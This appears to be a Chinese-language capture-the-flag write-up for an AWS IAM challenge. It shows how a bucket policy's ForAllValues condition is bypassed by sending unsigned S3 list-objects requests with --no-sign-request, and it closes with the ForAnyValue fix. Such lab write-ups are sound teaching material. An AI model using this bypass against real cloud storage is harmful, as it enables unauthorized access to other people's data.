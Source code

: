 那么，现在的目标就是获取到这个 FLAG 的 Key，但是我们从 Policy 里可以看到这个存储桶只对 arn:aws:iam::133713371337:user/admin 主体授予了 ListBucket 权限，所以现在要解决的问题就是，怎么绕过这个限制。

查阅官方文档，我们可以得到这样的一条信息：对于 ForAllValues，如果请求中没有键或者键值解析为空数据集（如空字符串），则也会返回 true，不要使用带有 Allow 效果的 ForAllValues，因为这样可能会过于宽容。

也就是说，如果我们把请求中的 aws:PrincipalArn 至为空，这里就会返回 True，那么就可以绕过了。

此时我们先发送一条包含 aws:PrincipalArn 的请求。

```bash
> aws s3api list-objects --bucket thebigiamchallenge-admin-storage-abf1321 --prefix 'files/'

An error occurred (AccessDenied) when calling the ListObjects operation: Access Denied
```

可以看到提示访问被拒绝，然后加上 `--no-sign-request` 试试。

```bash
> aws s3api list-objects --bucket thebigiamchallenge-admin-storage-abf1321 --prefix 'files/' --no-sign-request

{
    "Contents": [
        {
            "Key": "files/flag-as-admin.txt",
            "LastModified": "2023-06-07T19:15:43+00:00",
            "ETag": "\"e365cfa7365164c05d7a9c209c4d8514\"",
            "Size": 42,
            "StorageClass": "STANDARD"
        },
        {
            "Key": "files/logo-admin.png",
            "LastModified": "2023-06-08T19:20:01+00:00",
            "ETag": "\"c57e95e6d6c138818bf38daac6216356\"",
            "Size": 81889,
            "StorageClass": "STANDARD"
        }
    ]
}
```

可以看到，此时就返回了存储桶里的对象了，然后我们访问 FLAG 即可。

<img width="900" src="/img/1688699129.png"></br>

在使用命令行操作的时候，因为默认会带上自己 AWS CLI 上所配置的身份信息，所以这里我们需要加上 `--no-sign-request`去绕过，但我们使用浏览器访问的时候，其实本身就不包含身份信息的，所以这里有个更简单的做法，就是直接使用浏览器访问，然后加上前缀就行了。

<img width="900" src="/img/1688699141.png"></br>

这题告诉我们，在策略中即使配置了授权主体，也不一定就是安全的，还要注意有没有使用 ForAllValues，那么我们应该如何防范呢，其实只要把 ForAllValues 替换成 ForAnyValue 就行了，如果键值是空值的话，ForAnyValue 会返回 False，而不是 True，此时我们如果是未授权的访问就会提示 AccessDenied 了。

<img width="1000" src="/img/1688699176.png"></br>
